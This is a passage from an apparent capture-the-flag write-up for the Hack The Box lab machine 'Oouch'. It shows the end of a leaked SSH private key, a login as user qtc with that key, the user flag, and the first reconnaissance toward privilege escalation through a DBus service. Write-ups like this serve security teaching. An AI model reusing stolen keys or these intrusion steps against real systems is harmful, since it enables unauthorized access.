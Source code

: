 ```
EQL28qajGxNQ12KeqYG7CRpTDkgscTEEbAJEXAy1zhp+h0q51RbFLVkkl4mmjHzz0/6Qxl
tV7VTC+G7uEeFT24oYr4swNZ+xahTGvwAAAMEAzQiSBu4dA6BMieRFl3MdqYuvK58lj0NM
2lVKmE7TTJTRYYhjA0vrE/kNlVwPIY6YQaUnAsD7MGrWpT14AbKiQfnU7JyNOl5B8E10Co
G/0EInDfKoStwI9KV7/RG6U7mYAosyyeN+MHdObc23YrENAwpZMZdKFRnro5xWTSdQqoVN
zYClNLoH22l81l3minmQ2+Gy7gWMEgTx/wKkse36MHo7n4hwaTlUz5ujuTVzS+57Hupbwk
IEkgsoEGTkznCbAAAADnBlbnRlc3RlckBrYWxpAQIDBA==
-----END OPENSSH PRIVATE KEY-----

```

### SSH Access with qtc

```
$ chmod 600 id_rsa
$ ssh -i id_rsa qtc@oouch.htb
Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 25 12:45:55 2020 from 10.10.14.3
qtc@oouch:~$ cat user.txt 
2dea47702ee688171c4918703f46cb3c
```

### Privilege Escalation : docker credential stuffing

Let's see if there is a hint:

```
qtc@oouch:~$ ls -lA
total 28
lrwxrwxrwx 1 root root    9 Feb 11 18:34 .bash_history -> /dev/null
-rw-r--r-- 1 qtc  qtc   220 Feb 11 18:11 .bash_logout
-rw-r--r-- 1 qtc  qtc  3526 Feb 11 18:11 .bashrc
drwx------ 3 qtc  qtc  4096 Feb 25 12:45 .gnupg
-rw-r--r-- 1 root root   55 Feb 11 18:34 .note.txt
-rw-r--r-- 1 qtc  qtc   807 Feb 11 18:11 .profile
drwx------ 2 qtc  qtc  4096 Feb 11 18:34 .ssh
-rw------- 1 qtc  qtc    33 Jun 30 10:00 user.txt
qtc@oouch:~$ cat .note.txt 
Implementing an IPS using DBus and iptables == Genius?
```

Let's see about dbus process:

```
$ ps -ef f | grep dbus
root      2688     1  0 09:59 ?        Ss     0:00 /root/dbus-server
message+  2690     1  0 09:59 ?        Ss     0:02 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
```
